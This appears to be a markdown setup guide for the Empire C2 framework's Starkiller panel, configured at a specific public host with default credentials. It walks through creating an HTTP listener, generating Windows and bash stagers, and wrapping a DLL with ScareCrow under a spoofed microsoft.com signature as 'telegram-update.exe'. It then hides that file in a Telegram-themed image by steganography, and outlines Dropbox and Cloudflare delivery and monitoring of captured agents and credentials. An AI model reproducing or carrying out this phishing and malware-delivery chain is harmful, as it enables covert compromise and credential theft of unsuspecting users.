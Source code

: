 # 🎯 Starkiller Setup Guide

## 🌐 Access Starkiller

**URL**: https://161-35-155-3.sslip.io

## 🔐 Login

1. Open Starkiller in your browser (already done)
2. You'll see the Starkiller login page
3. **Default credentials**:
   - URL: `https://161-35-155-3.sslip.io:1337` or `http://127.0.0.1:1337`
   - Username: `empireadmin`
   - Password: `password123`

## 📡 Create HTTP Listener

1. Click **Listeners** in left sidebar
2. Click **Create** button
3. Select **HTTP**
4. Configure:
   ```
   Name: main_http
   Host: https://161-35-155-3.sslip.io
   Port: 443
   BindIP: 0.0.0.0
   DefaultProfile: /admin/get.php,/news.php,/login/process.php|Mozilla/5.0
   ```
5. Click **Submit**

## 🎯 Generate Stagers

### Windows PowerShell Launcher
1. Click **Stagers** in left sidebar
2. Select **windows/launcher_bat**
3. Set **Listener**: `main_http`
4. Set **OutFile**: Leave blank or specify path
5. Click **Generate**
6. Copy output and save as `launcher.bat`

### Windows DLL (for ScareCrow)
1. Select **windows/dll**
2. Set **Listener**: `main_http`
3. Click **Generate**
4. Save output as `empire.dll`

### Multi/Bash
1. Select **multi/bash**
2. Set **Listener**: `main_http`
3. Click **Generate**
4. Save as `launcher.sh` for Linux targets

## 📂 Save Stagers

Save all stagers to:
```
/home/kali/Main C2 Framework/advanced-steganography-phishing/stagers/
```

## 🔗 Integration with ScareCrow

Once you have `empire.dll`:

```bash
cd /home/kali/ScareCrow

./ScareCrow \
  -I "/home/kali/Main C2 Framework/advanced-steganography-phishing/stagers/empire.dll" \
  -Loader binary \
  -domain microsoft.com \
  -O "/home/kali/Main C2 Framework/advanced-steganography-phishing/payloads/telegram-update.exe"
```

## 🖼️ Embed in Steganography

```bash
cd /home/kali/Main\ C2\ Framework/advanced-steganography-phishing

python3 large-stego-system.py embed \
  --payload payloads/telegram-update.exe \
  --carrier-image images/telegram-hero.png \
  --output output/telegram-hero-payload.png
```

## ✅ Verification

### Check Listener Status
- In Starkiller, go to **Listeners**
- Status should show **Active**

### Test Agent Check-in
1. Generate a test stager
2. Run in controlled VM
3. Watch **Agents** tab for check-in
4. Initial callback should appear within 30 seconds

## 🎯 Complete Workflow

```
1. Create Listener (main_http) ✓
   ↓
2. Generate DLL Stager ✓
   ↓
3. Process with ScareCrow → EXE
   ↓
4. Embed in Image → Stego Image
   ↓
5. Upload to Dropbox
   ↓
6. Deploy Cloudflare Worker
   ↓
7. Test Attack Chain
   ↓
8. Monitor Agents in Starkiller
```

## 📱 Starkiller Tips

- **Agents Tab**: See all active agents
- **Listeners Tab**: Manage C2 listeners
- **Stagers Tab**: Generate payloads
- **Modules Tab**: Post-exploitation modules
- **Credentials Tab**: Captured credentials
- **Reporting Tab**: Generate reports

## 🔒 Security Notes

- Change default password immediately
- Use HTTPS only for production
- Configure proper access controls
- Monitor logs regularly
- Implement kill-switch mechanisms

---

**Current Status**: Starkiller is accessible and ready to use!

**Next Action**: Login and create your first listener

